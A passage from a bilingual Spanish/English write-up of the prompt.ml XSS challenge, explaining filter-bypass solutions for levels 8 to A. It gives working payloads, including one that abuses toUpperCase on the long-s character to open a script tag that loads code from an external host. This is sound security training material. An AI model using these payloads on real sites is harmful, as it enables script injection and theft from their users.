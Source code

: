 ### Solution
`[u+2028]prompt(1)[u+2028]-->`

>[Top](#index)

## [Level 9]
:es: El regex de este code caza cualquier `<x` donde `x` sea cualquier letra `[a-ZA-Z]`, la vulnerabilidad está en la función de js `toUpperCase`, que ciertos carácteres unicode los "pasa" a mayúscula incorrectamente, lo que nos da ciertas letras, por ejemplo la letra `ſ` se transforma en `S`, con lo que podemos abrir un tag `<SCRIPT>`, ya que el regex verá `<ſ` lo que no cumple la condición de que sea una letra, pero una vez llegue a la función `.toUpperCase`, quedará `<S`.

Al estar todo en mayúsculas, si ponemos un `prompt(1)` no funcionará ya que tiene que estar en minúsculas, por lo que cargamos el script via `href` desde una página externa, en este caso `14.rs`.

:uk: This regex looks for any `<x` where `x` is any letter `[a-zA-Z]`, this vulnerability relies in the js function `.toUpperCase`, which allows certain Unicode chars to be "translated" to upper case incorrectly, showing certaing letters, for example the char `ſ` switches to `S`, this way we can open a tag `<SCRIPT>`, cause the regex will see `<ſ`, thus not being replaced by its condition, but when it gets to the `.toUpperCase` function, it will look like `<S`.

Also, as everything will be in upper case, we can't use `prompt(1)` cause it has to be in lowercase, so we just load the script via `href` using an external web, in this case `14.rs`.

### Code
```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}     
```

### Solution
`<ſvg><ſcript href=//14.rs`
 
>[Top](#index)

## [Level A]
:es: Este es sencillo, tenemos primero un `replace` que coge cualquier `prompt` y lo convierte en `alert`, y a continuación borrar cualquier `'`, de esta manera, si escribimos `promp't`, el primer replace no detecta la palabra, y una vez llega al segundo replace, quita la coma, quedando nuestro `prompt`.

:uk: This one is easy, in the first `replace`, it takes any `prompt` and changes it to `alert` then in the second one, it removes any `'`, this way, if we write `promp't`, it won't trigger the first replace, and the second replace will help us removing the `'` giving us a clean `prompt`.


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15